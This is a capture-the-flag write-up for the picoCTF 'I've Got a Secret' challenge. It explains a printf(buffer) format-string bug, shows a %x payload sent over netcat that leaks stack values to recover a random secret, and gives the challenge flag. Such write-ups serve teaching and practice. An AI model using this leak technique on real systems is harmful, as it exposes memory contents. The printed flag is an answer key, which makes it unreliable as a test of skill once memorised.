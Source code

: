 ## I've Got a Secret - 75

### Description

Hopefully you can find the right format for my [secret](./secret)! [Source](./secret.c). Connect on shell2017.picoctf.com:58570.

### Hint

  - This is a beginning format string attack.

### Write up

```c
int fd = open("/dev/urandom", O_RDONLY);
if(fd == -1){
    puts("Open error on /dev/urandom. Contact an admin\n");
    return -1;
}
int secret;
if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    puts("Read error. Contact admin!\n");
    return -1;
}
```

The program reads `secret` value from /dev/urandom, which is actually random.

```c
int not_secret;
printf("Now tell my secret in hex! Secret: ");
fflush(stdout);
scanf("%x", &not_secret);
if(secret == not_secret){
    puts("Wow, you got it!");
    system("cat ./flag.txt");   
}else{
    puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
}
```

And we must guess it correctly.

```c
printf("Give me something to say!\n");
fflush(stdout);
fgets(buffer, BUF_LEN, stdin);
printf(buffer);
```

Where we can attack is here. The program gets string from user and print it.

Buf `printf(buffer)` triggers format string bug.

    $ nc localhost 58570
    Give me something to say!
    %x %x %x %x %x %x %x %x %x %x
    40 f7fc7c20 8048792 1 ffffdd34 3ccfcaf5 3 f7fc73c4 ffffdca0 0

    $ nc localhost 58570
    Give me something to say!
    %x %x %x %x %x %x %x %x %x %x
    40 f7fc7c20 8048792 1 ffffdd34 7651656a 3 f7fc73c4 ffffdca0 0

If we send format string as a input, we can leak the memory stack.

Each time we execute the program, 6th output changes. So that must be `secret` value.

    $ nc localhost 58570
    Give me something to say!
    %x %x %x %x %x %x %x %x %x %x
    40 f7fc7c20 8048792 1 ffffdd34 7651656a 3 f7fc73c4 ffffdca0 0
    Now tell my secret in hex! Secret: 7651656a
    326edd4743c7046d72d29e911ae8a412
    Wow, you got it!

> 326edd4743c7046d72d29e911ae8a412
